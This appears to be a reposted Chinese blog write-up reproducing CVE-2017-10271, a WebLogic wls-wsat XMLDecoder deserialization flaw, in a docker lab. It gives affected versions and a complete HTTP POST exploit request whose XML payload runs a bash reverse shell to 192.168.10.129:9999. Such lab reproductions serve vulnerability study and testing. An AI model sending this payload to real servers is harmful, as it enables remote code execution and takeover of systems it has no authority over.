




# Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16283279.html`](https://www.cnblogs.com/NoCirc1e/p/16283279.html)

Weblogic 的 WLS Security 组件对外提供 webservice 服务，其中使用了 XMLDecoder 来解析用户传入的 XML 数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

参考链接：

*   [`www.exploit-db.com/exploits/43458/`](https://www.exploit-db.com/exploits/43458/)
*   [`paper.seebug.org/487/`](https://paper.seebug.org/487/)
*   [`github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices 组件反序列化漏洞分析.md`](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices 组件反序列化漏洞分析.md)
*   [`blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html`](http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html)

## 影响版本

*   Oracle WebLogic Server 10.3.6.0.0 版本
*   Oracle WebLogic Server 12.1.3.0.0 版本
*   Oracle WebLogic Server 12.2.1.1.0 版

## 环境搭建

启动测试环境：

```
docker-compose up -d
```



等待一段时间，访问`http://your-ip:7001/`即可看到一个 404 页面，说明 weblogic 已成功启动。



## 漏洞复现

漏洞存在于以下路径：/wls-wsat/CoordinatorPortType11

正常访问如下



发送如下数据包（注意其中反弹 shell 的语句，需要进行编码，否则解析 XML 的时候将出现格式错误）：

<details><summary>点击查看代码</summary>

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope > <soapenv:Header>
<work:WorkContext >
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.10.129/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope> 
```</details> 

成功获取 shell

